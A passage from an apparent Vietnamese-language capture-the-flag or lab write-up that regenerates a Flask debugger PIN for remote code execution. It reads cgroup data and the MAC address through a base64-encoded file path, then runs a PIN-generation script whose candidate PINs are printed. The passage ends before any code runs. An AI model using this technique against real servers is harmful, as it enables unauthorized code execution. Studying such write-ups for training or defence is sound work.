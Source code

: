 ```
12:perf_event:/ 11:freezer:/ 10:hugetlb:/ 9:rdma:/ 8:pids:/system.slice/blog.service 7:memory:/system.slice/blog.service 6:cpuset:/ 5:net_cls,net_prio:/ 4:devices:/system.slice/blog.service 3:blkio:/system.slice/blog.service 2:cpu,cpuacct:/system.slice/blog.service 1:name=systemd:/system.slice/blog.service 0::/system.slice/blog.service
```

Giá trị cần lưu ý ở đây là `blog.service`.

Cuối cùng, cần địa chỉ MAC của giao diện mạng. Thật không may, không biết tên interface mà mục tiêu đang sử dụng, nhưng có thể thử một số tên thường dùng hơn. Cuối cùng, phát hiện ra `ens160`, giải quyết file quan tâm là `/sys/class/net/ens160/address` (`L3N5cy9jbGFzcy9uZXQvZW5zMTYwL2FkZHJlc3M=`).

Khi điều hướng đến địa chỉ đó, thấy địa chỉ MAC là `00:50:56:8a:fc:e8` hoặc `345049332968` ở dạng thập phân.

### Remote Code Execution

Bây giờ đã có tất cả thông tin cần thiết để tạo lại mã PIN gỡ lỗi Flask, có thể thử thực thi mã từ xa. Có thể tạo lại mã PIN bằng một script:

```
kali@kali:~$ python3 get_flask_pin.py --machineid '00566233196142e9961b4ea12a2bdb29blog.service' --uuid 345049332968
[!] App.py base path not provided, trying for most versions of python
2.7: 808-636-148
3.0: 326-388-942
3.1: 497-064-428
3.2: 134-262-617
3.3: 190-791-220
3.4: 238-677-304
3.5: 210-728-119
3.6: 173-509-958
3.7: 159-262-052
3.8: 751-326-702
kali@kali:~$ 
```

Mặc dù không biết phiên bản python chính xác mà mục tiêu đang chạy, có thể thử tất cả các mã PIN này. Cuối cùng, thành công với phiên bản 3.6.

Tuy nhiên, tùy thuộc vào một số sự kiện xảy ra trong chu kỳ khởi động của máy cụ thể này, `/proc/self/cgroup` đôi khi không được đưa vào tính toán mã debug PIN. Trên thực tế, sự bất thường này xảy ra trong quá trình khởi động cụ thể. Do đó, không thành công với giá trị mã PIN là `173-509-958`.

Trong trường hợp này, chạy lại script Python đã xóa `blog.service` (đã được thêm vào machine ID):

```
kali@kali:~$ python3 get_flask_pin.py --machineid '00566233196142e9961b4ea12a2bdb29' --uuid 345049332968
[!] App.py base path not provided, trying for most versions of python
2.7: 120-566-406
3.0: 438-454-566
3.1: 207-828-493
3.2: 414-794-431
3.3: 359-376-798
3.4: 150-123-880
3.5: 207-574-021
3.6: 299-818-227
3.7: 327-733-603
3.8: 224-299-250
kali@kali:~$ 
```
